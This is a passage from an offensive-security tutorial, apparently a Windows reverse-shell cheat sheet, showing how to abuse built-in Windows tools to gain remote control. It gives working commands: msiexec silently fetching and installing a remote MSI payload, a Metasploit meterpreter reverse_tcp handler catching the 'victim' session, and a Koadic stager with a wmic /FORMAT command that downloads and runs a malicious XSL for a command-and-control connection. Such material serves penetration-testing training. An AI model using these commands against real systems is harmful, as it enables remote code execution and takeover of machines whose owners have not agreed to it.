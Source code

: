 ```
Once you will execute the 1.msi file on the remote machine with the help of msiexec, you will get the reverse connection at your local machine (Kali Linux).

```msiexec /q /i http://192.168.1.109/1.msi```

![](images/reverse_shell_windows_31.png)

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

As you can observe, we have meterpreter session of the victim as shown below:

![](images/reverse_shell_windows_32.png)

## Wmic.exe

The WMIC utility is a Microsoft tool provides a WMI command-line interface that is used for a variety of administrative functions for local and remote machine and also used to wmic query such as system settings, stop processes and execute scripts locally or remotely. Therefore, it can invoke **XSL script** (eXtensible Stylesheet Language).

### Launch Wmic.exe attack via Koadic

Now will generate a malicious XSL file with the help of koadic which is a Command & Control tool which is quite similar to Metasploit and Powershell Empire.

To know how koadic works, read our article from here: https://www.hackingarticles.in/koadic-com-command-control-framework/

Once installation gets completed, you can run ./koadic file to start koadic and start with loading the stager/js/wmic stager by running the following command and set SRVHOST where the stager should call home.

```
use stager/js/wmic
set SRVHOST 192.168.1.107
run
```

![](images/reverse_shell_windows_36.png)

Execute WMIC following command to download and run the malicious XSL file from a remote server:

```wmic os get /FORMAT:"http://192.168.1.107:9996/g8gkv.xsl"```

![](images/reverse_shell_windows_37.png)

Once the malicious XSL file will get executed on the target machine, you will have a **Zombie connection** just like Metasploit.

![](images/reverse_shell_windows_38.png)

Author: AArti Singh is a Researcher and Technical Writer at Hacking Articles an Information Security Consultant Social Media Lover and Gadgets. Contact here

## Finger

Source: https://web.archive.org/web/20200912021508/http://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt
```